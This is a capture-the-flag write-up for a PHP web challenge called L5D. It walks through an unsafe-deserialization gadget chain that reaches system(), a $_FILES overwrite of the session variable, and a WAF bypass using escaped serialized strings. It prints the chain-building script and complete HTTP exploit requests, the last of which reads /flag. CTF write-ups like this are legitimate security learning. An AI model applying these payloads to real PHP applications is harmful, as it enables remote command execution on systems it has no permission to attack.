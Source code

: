 # L5D (web, 471p, 17 solves)

L5D is a PHP challenge that contains an unsafe deserialization vulnerability as a feature.

There are 5 classes present in the source code:
- `L5D_Upload` allows the user to overwrite global variables with the content of the `$_FILES` array
```php
foreach ($_FILES as $key => $value)
    $GLOBALS[$key] = $value;
```

- `L5D_Login::__wakeup` sets `$_SESSION['name']` to "wubalubadubdub" if the hash of /flag is provided
- `L5D_SayMyName` prints `$_SESSION['name']`
- `L5D_ResetCMD` sets global variable `$cmd`
- `L5D_Command` execute `$cmd` with `system`

`$_SESSION['name']` can be overwritten to `wubalubadubdub` with the following request:
```
POST /test.php HTTP/1.1
Host: 35.194.175.80:8000
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.193 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryHSJdBIRyR3O8F6VC
Content-Length: 400

------WebKitFormBoundaryHSJdBIRyR3O8F6VC
Content-Disposition: form-data; name="l5d_file"; filename="xxx"

GIF89aaaaaa
------WebKitFormBoundaryHSJdBIRyR3O8F6VC
Content-Disposition: form-data; name="_SESSION"; filename="wubalubadubdub"

x
------WebKitFormBoundaryHSJdBIRyR3O8F6VC--

```

It is possible to make a gadget chain that executes `ls -al` locally with the following script :

```php
<?php

class L5D_Command {
    function __construct() {
    }
}

class L5D_ResetCMD {
    private $new_cmd;

    function __construct() {
        $this->new_cmd = 'ls -al';
        $this->v = new L5D_Command;
    }

}

class L5D_Upload {
    function __construct() {
        $this->x = new L5D_ResetCMD;
    }
}

echo urlencode(serialize([new L5D_Upload]));
```

```
POST /ex.php?%3f=a%3A1%3A%7Bi%3A0%3BO%3A10%3A%22L5D_Upload%22%3A1%3A%7Bs%3A1%3A%22x%22%3BO%3A12%3A%22L5D_ResetCMD%22%3A2%3A%7Bs%3A21%3A%22%00L5D_ResetCMD%00new_cmd%22%3Bs%3A2%3A%22id%22%3Bs%3A1%3A%22v%22%3BO%3A11%3A%22L5D_Command%22%3A0%3A%7B%7D%7D%7D%7D HTTP/1.1
Host: 35.194.175.80:8000
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.193 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryHSJdBIRyR3O8F6VC
Content-Length: 289

------WebKitFormBoundaryHSJdBIRyR3O8F6VC
Content-Disposition: form-data; name="l5d_file"; filename="xxx"

GIF89aaaaaa
------WebKitFormBoundaryHSJdBIRyR3O8F6VC
Content-Disposition: form-data; name="_SESSION"; filename="wubalubadubdub"

x
------WebKitFormBoundaryHSJdBIRyR3O8F6VC--

```

This works in local (php 7.4) but this challenge uses php 7.0.33.
php 7.0 does not consider private variables as equivalent to protected variables during unserialization.


```
docker run -d -p 8080:80 --rm --name oldphp -v "$PWD":/var/www/html php:7.0.33-apache
```

Unfortunately, declaring `L5D_ResetCmd::$new_cmd` as a protected variable makes the request blocked by the WAF because of the `*`.
PHP stores protected variable as `\x00*\x00<variable>` and private variables as `\x00<class>\x00<variable>`.

```php
function waf($s) {
    if(stripos($s, "*") !== FALSE)
        return false;
    return true;
}
```

It is possible to bypass the WAF by using the `S` representation of strings in serialized form (https://github.com/ambionics/phpggc#ascii-strings)

```
POST /index.php?%3f=a%3A1%3A%7Bi%3A0%3BO%3A10%3A%22L5D_Upload%22%3A1%3A%7Bs%3A1%3A%22x%22%3BO%3A12%3A%22L5D_ResetCMD%22%3A3%3A%7BS:10:"\00\2a%00new_cmd";s:9:"cat%20/flag";s%3A1%3A%22x%22%3BO%3A13%3A%22L5D_SayMyName%22%3A0%3A%7B%7Ds%3A1%3A%22v%22%3BO%3A11%3A%22L5D_Command%22%3A0%3A%7B%7D%7D%7D%7D%27%3B HTTP/1.1
Host: 35.194.175.80:8000
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.193 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryHSJdBIRyR3O8F6VC
Content-Length: 291

------WebKitFormBoundaryHSJdBIRyR3O8F6VC
Content-Disposition: form-data; name="l5d_file"; filename="xxx"

GIF89aaaaaa
------WebKitFormBoundaryHSJdBIRyR3O8F6VC
Content-Disposition: form-data; name="_SESSION"; filename="wubalubadubdub"

x
------WebKitFormBoundaryHSJdBIRyR3O8F6VC--

```